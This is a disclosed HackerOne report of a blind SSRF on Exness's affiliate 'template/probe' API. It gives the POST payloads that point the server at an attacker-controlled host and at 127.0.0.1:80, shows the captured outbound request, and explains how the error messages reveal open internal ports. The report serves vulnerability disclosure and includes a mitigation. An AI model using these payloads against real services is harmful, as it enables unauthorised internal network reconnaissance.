 # Blind SSRF on https://my.exnessaffiliates.com/ allows for internal network enumeration

## Report Details
- **Report ID**: 1832494
- **URL**: https://hackerone.com/reports/1832494
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-01-12T13:49:27.283Z
- **Disclosed**: 2023-10-25T13:09:58.717Z

## Reporter
- **Username**: null_hypothesis
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: exness

## Vulnerability Information
## Summary:
Hi
Hope you're well
I have found a Blind SSRF vulnerability, in an endpoint on exnessaffiliates.com endpoint, which would allow for Internal network enumeration.

The endpoint in question is 
`https://my.exnessaffiliates.com/api/partner_integrations/template/probe`

When an attacker makes a POST request, with the post data:
```
{"data":{"url":"https://attacker-domain.tld"}}
```

We can see a DNS and HTTP request being made as so:
```
GET / HTTP/1.1
Host: sa66ovrblrbiviochnojtli2bthk5ft4.oastify.com
sentry-trace: xxx,baggage: sentry-trace_id=xxx,sentry-environment=production,sentry-public_key=xxx,sentry-transaction=/api/v1/partners/%7Bpartner_partner_uid%7D/integrations/
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
uber-trace-id: xxx
```

This is itself, would constitute a minor Blind SSRF vulnerability, if it is not intentionally accepted.

However, if we use the post data:
```
{"data":{"url":"https://127.0.0.1:80"}}
```

Normally, if the port/host is not reachable, it will return a simple error:
```
"code":"ValidationError","message":"Invalid input.","details":[{"field":"url","message":"Invalid Postback URL","code":"invalid"}]
```

However, if the port is open, Python Requests is returning the error message to the user as so:
{F2117769}

This indicates that the HTTP port 80 on 127.0.0.1 is open.

With permission, I will further this attack to inspect the internal network.


## Steps to Reproduce:
[Add details for how we can reproduce the issue. Please ensure reproducibility of the issue.]

  1. Make a POST request to https://my.exnessaffiliates.com/api/partner_integrations/template/probe/
       with the post data 
      {"data":{"url":"https://127.0.0.1:80"}}


## Impact
How does the issue affect the business or the user? 
Internal network details are disclosed.

What can the attacker get through the issue? 
Internal network device enumeration
Utilise the requests for DDOS on a victim's server.


Can the issue be escalated further? If so, how? 
Potentially, I will attempt further escalation with permission.

## Mitigation
Do not return Python errors to the user - even when URL contains blacklisted contents.


## Supporting Material/References:
attached above.

## Impact

Currently, this will allow for network enumeration from the internal IP:
███████
With permission, I will attempt to escalate this issue to inspect the internal network further, and attempt RCE.

## Attachments
- image.png
